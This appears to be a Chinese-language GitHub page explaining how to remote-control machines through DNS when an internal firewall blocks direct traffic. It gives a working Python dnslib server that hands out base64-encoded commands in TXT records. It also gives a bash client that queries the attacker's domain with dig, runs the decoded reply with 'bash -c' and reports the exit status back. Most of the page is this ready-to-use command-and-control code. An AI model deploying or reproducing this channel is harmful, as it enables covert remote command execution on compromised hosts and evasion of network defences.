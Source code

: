 # 通过dns远程控制
### 原理
在内网防火墙阻碍了远控客户端与服务端直接通信的时候,可以借内网的dns服务器做中转.  
需要一台公网服务器`a.b.c.d`和一个域名`abc.xyz`,搭建dns服务,接收经过构造的域名字符串,比如`i-am-very-happy.abc.xyz`,等同于向服务器发送了一个内容为`i-am-very-happy`的字符串,服务器再返回一个构造的字符串,比如CNAME可以是`how-old-are-you.abc.xyz`,这里用TXT可以传递更多字符,这样就完成了一次通信.这种方式更加隐蔽,但承载的内容有限.
### 准备域名
| 记录类型 | 主机记录 | 记录值 |
| :-: | :-: | :-: |
| NS | x | ns.abc.xyz |
| A | ns | a.b.c.d |
### 服务端
```python
#!/usr/bin/python3
# -*- coding:utf-8 -*-

import dnslib, os, re, time, base64
os.chdir(os.path.split(os.path.realpath(__file__))[0])


class just_a_resolver:
    def resolve(self, request, handler):
        domain = 'x.abc.xyz.'
        response = request.reply()
        name = str(request.q.qname)
        # 判断域名是否合法以及类型是否为TXT,不符合直接返回
        if request.q.qtype != 16 or not name.endswith(
                domain) or len(name) <= len(domain) + 1:
            return response
        try:
            # 机器id-会话id-返回值-毫秒时间戳
            # 123xxC-5873310-x-1525873329733
            userid, stamp, status, _ = name[:-(len(domain) + 1)].split('-')[:4]
            # userid不能用数字字母以外的其他字符
            if re.findall('[^a-zA-Z0-9]',
                          userid) or not os.path.exists(userid):
                raise Exception
            # 每次请求和返回都用同一个stamp,只能是7位数字
            if re.findall('[^0-9]', stamp) or len(stamp) != 7:
                raise Exception
        except:
            return response

        # status为执行完命令上传的执行结果,为一个数字
        if status.isdigit():
            for r, _, f in os.walk(userid):
                for fl in f:
                    if fl.endswith('_%s.cmd' % stamp):
                        path = os.path.join(r, fl.replace('.cmd', '.res'))
                        # 当存在某个还没有被回复的stamp文件时,以它命名,否则不写入
                        if not os.path.exists(path):
                            open(path, 'w').write(status)
                            return response
        else:
            # 遍历目录,找到第一个txt结尾的文件,发送其内容并重命名为: 秒级时间戳_stamp.cmd
            for r, _, f in os.walk(userid):
                for fl in f:
                    if fl.endswith('.txt'):
                        path = os.path.join(r, fl)
                        try:
                            c = base64.b64encode(
                                open(path).read().encode('utf-8')).decode(
                                    'utf-8')
                            os.rename(path,
                                      os.path.join(r, '%d_%s.cmd' %
                                                   (time.time() * 1000,
                                                    stamp)))
                        except:
                            return response
                        response.add_answer(
                            dnslib.RR.fromZone(
                                name + ' 60 IN TXT ' + ' '.join([
                                    '"%s"' % c[i:i + 255]
                                    for i in range(0, len(c), 255)
                                ]))[0])
                        return response

        return response


from dnslib.server import DNSServer
DNSServer(just_a_resolver(), port=53, address="0.0.0.0", tcp=False).start()
```
### 客户端
```bash
#!/bin/bash
userid='123xxC'
domain='x.abc.xyz'
timestamp=$(date +%s%N)
((timestamp=timestamp/1000000))
((sessionid=timestamp/100%10000000))

cmd=$(dig txt ${userid}-${sessionid}--${timestamp}.${domain} +short | tr -d ' "' | base64 -d)
bash -c "$cmd"
status=$?

timestamp=$(date +%s%N)
((timestamp=timestamp/1000000))
dig txt ${userid}-${sessionid}-${status}-${timestamp}.${domain}
```
客户端大概像这样,因为用得不多,就简单点了.
### 适用范围
根据网络环境不同,比如是否允许DNS的TCP模式,丢包率的高低等因素,每次请求承载的数据量也不同.在网络稳定,使用UDP,没有截断和重传的情况下,一次请求可以获得440个左右的字符,再加上使用了base64,最终可以获得有效字符为330个左右,对于简短的shell命令来说堪堪够用.  
如果需要稳定持久的连接,可以考虑使用DNS隧道,比如[iodine](https://github.com/yarrick/iodine)或[dnscat2](https://github.com/iagox86/dnscat2)